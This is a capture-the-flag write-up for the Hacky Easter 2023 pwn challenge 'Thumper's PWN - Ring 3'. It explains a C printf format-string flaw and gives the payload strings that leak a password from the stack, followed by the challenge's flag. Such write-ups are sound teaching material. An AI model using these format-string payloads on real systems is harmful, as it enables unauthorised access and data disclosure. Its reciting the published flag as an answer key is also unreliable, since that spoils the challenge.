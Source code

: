 Thumper's PWN - Ring 3
=============

Difficulty: medium

Tags: pwn

Description
-------------
Thumper has been hunting his nemesis, Dr. Evil, for months. He finally located his remote system and is trying to gain access. Can you help him find the right password?

Target: `nc ch.hackyeaster.com 2313`

Note: The service is restarted every hour at x:00.


Solution
-------------
There is an exploit in the `printf` function in C where if you have more tokens passed in than variables to print, it will continue to pop values off the stack and print them.

You can enter the a malicious string as the password, and when it calls printf to show you what faied, it will execute that string with the values on the stack.

Passing `AAAABBBB %p %p %p %p %p %p %p %p` showed the values of the first 8 values on the stack, and the 8th value was the hex representation of the `AAAABBBB` input.

You can then pass `%s` instead of `%p` to print the string at that address in memory. Passing `AAAABBBB %p %p %p %p %p %p %s %p` gave the output:
```Nope..
AAAABBBB 0x7f7a6fc6a7e3 0x7f7a6fc6b8c0 0x7f7a6f98e104 0x6 0x7f7a6fe934c0 (nil) 5uP3R_s3cUr3_PW
 0x4242424241414141
is incorrect. Better luck next time
```

Once you enter `5uP3R_s3cUr3_PW` as the password, you get the response:
```
Access granted, here is your flag:

he2023{w3lc0m3_t0_r1ng_3_thump3r}
```

Flag
-------------
`he2023{w3lc0m3_t0_r1ng_3_thump3r}`